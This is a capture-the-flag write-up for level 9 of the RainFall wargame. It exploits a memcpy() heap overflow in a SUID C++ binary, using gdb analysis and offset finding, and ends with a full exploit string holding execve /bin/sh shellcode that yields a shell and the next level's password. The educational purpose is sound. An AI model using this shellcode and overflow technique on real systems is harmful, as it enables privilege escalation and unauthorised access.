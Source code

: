 # Level 9

## Vulnerability

```memcpy()``` buffer overflow

## Context

We find a binary with owner bonus0 and SUID.
```
level9@RainFall:~$ ls -l
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
```
When run, it does nothing.
```
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 hi
level9@RainFall:~$ ./level9 oh hi
level9@RainFall:~$
```

## Solution

Giving one long argument causes a segfault. We find the maximum input is 108 characters before segfaulting.
```
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 108')
level9@RainFall:~$ ./level9 $(python -c 'print "A" * 109')
Segmentation fault (core dumped)
```

Investigating with gdb, we find this binary is compiled from C++ source code. 5 functions of class ```N``` stand out.
```
(gdb) info functions
...
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
...
```
### main() overview

Globally, ```main()``` initializes two instances (```n1``` & ```n2```) of class ```N``` which contain:
1. an annotation (string)
2. a number (int)

Then ```main()``` calls ```setAnnotation()``` which calls ```memcpy()```, copying ```argv[1]``` into a buffer ```n1->annotation```. ```memcpy()``` copies strlen(argv[1]) bytes, meaning we can easily overflow the buffer.

Finally ```main()``` adds ```n1``` + ```n2```.

### Route to solution

Can we simply (like previous levels) write our [malicious code which opens a shell](http://shell-storm.org/shellcode/files/shellcode-827.php) in buffer ```n1->annotation```, then overwrite EIP with the address of our malicious code? Unfortunately, using the following example and [this EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/), we don't seem to be able to reach and overwrite EIP.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4...
...
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
```
However, because we created ```n2``` after ```n1``` on the heap, we can use the ```memcpy()``` overflow to overwrite both ```n1``` and ```n2```. So can we write our malicious code in ```n1``` then overwrite ```n2``` with the address of our malicious code, then have ```main()``` call our malicious code for us when it adds? Not quite so simple...

```main()``` accesses ```n1->annotation``` dereferenced twice (a pointer to a pointer to contents), so we overwrite ```n2``` with the address of a pointer to our malicious code.

### Find buffer address

We need to find the address of ```n1```. In gdb, in the main we find the instruction after the call to ```n1->setAnnotation()``` is ```*main+136```. Put a break point at ```*main+136```, and run with a 4 byte argument ("BUFF"). Displaying the memory at %eax we find our argument stored in the buffer at ```0x804a00c```
```
level9@RainFall:~$ gdb -q level9
...
(gdb) disas main
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
...
(gdb) break *main+136
...
(gdb) run "BUFF"
...
(gdb) x/s $eax
0x804a00c:	 "BUFF"
```

### Find n2 offset

We need to find out how many bytes we write in ```n1``` before we overflow into ```n2```? ```n2``` corresponds to register ```eax``` at time of segfault.

Lets run the binary with our a pattern string from our favorite [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) and make it segfault.
```
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6A

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441	1094083649
```
lets convert the contents of ```eax``` from hex to ascii with ```xxd```
```
>$ echo 0x41366441 | xxd -r -p | rev
Ad6A
```
Searching for ```Ad6A``` in the pattern string we find it starts at byte 109. This means we can overwrite ```n2``` from byte 109 of our exploit string.

### Build exploit string

So we build our exploit which will be copied to buffer address ```0x804a00c```:
1. address of malicious code (part 2) - ```\x10\xa0\x04\x08```
2. malicious code which opens a shell - ```\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80```
3. buffer until we reach ```n2``` - ```"A" * 76```
4. address of address of malicious code (part 1) - ```\x0c\xa0\04\x08```

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

## Recreate Exploited Binary

As user ```bonus0```, in ```/tmp```, create and compile ```level9_source.cpp```
```
bonus0@RainFall:/tmp$ g++ level9_source.cpp -fno-stack-protector -z execstack -o level9_source
```

Edit permissions including suid, then move the binary to home directory.
```
bonus0@RainFall:/tmp$ chmod u+s level9_source; chmod +wx ~; mv level9_source ~
```

Exit back to user ```level9```, then provide our exploit with updated addresses.
With the same method as above we find the buffer address ```0x0804b008```.
```
bonus0@RainFall:/tmp$ exit
exit
level9@RainFall:~$ /home/user/bonus0/level9_source $(python -c 'print "\x10\xb0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xb0\04\x08"')
$ whoami
bonus0
```
